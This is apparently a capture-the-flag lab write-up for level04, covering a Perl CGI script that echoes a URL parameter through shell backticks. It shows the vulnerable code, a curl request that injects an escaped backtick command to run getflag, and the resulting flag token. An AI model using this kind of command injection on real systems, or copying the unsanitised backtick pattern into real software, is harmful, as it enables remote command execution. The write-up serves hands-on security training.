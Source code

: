 In the **home** folder there is a perl file named **level04.pl** containing the following code :
```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};						# Allows you to set a parameter
print "Content-type: text/html\n\n";	# Poster as HTLM
sub x {									# Function x
  $y = $_[0];							# Takes the first parameter
  print `echo $y 2>&1`;					# Echo the parameter
}
x(param("x"));							# Calls the function
```

So we understand that the perl will run if we go to the IP:4747 page,
moreover it takes a parameter (thanks to the url) x, that it will **echo**.

<pre><code>> curl IP:4747?x=test
test
</code></pre>

We realize that there is no special check against the parameter, so we try to inject a command :

<pre><code>> curl IP:4747?x=\`getflag\`
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
</code></pre>
> We escape the **`** to avoid the return of the **getflag** command, the goal is that the command is executed at the time of **echo**.